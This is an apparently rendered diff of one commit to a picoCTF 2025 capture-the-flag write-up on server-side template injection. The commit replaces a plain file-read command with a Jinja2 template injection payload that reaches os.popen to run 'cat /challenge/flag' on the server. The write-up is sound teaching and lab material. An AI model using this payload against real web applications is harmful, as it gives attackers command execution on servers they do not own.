

Before and after one commit to Josephfallen/picoCTF2025-writeups, a Markdown page: SSTI/writeup.md, the part around the change. Drawn GitHub-style.

````diff
--- a/SSTI/writeup.md
+++ b/SSTI/writeup.md
@@ -76,7 +76,7 @@ drwxr-xr-x 2 root root 32 Mar 17 13:49 __pycache__
 Since the `flag` file had read permissions for all users (`rw-r--r--`), we could directly access and read it:
 
 ```bash
-cat /challenge/flag
+{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /challenge/flag').read() }}
 ```
 
 **Flag Output**:
````
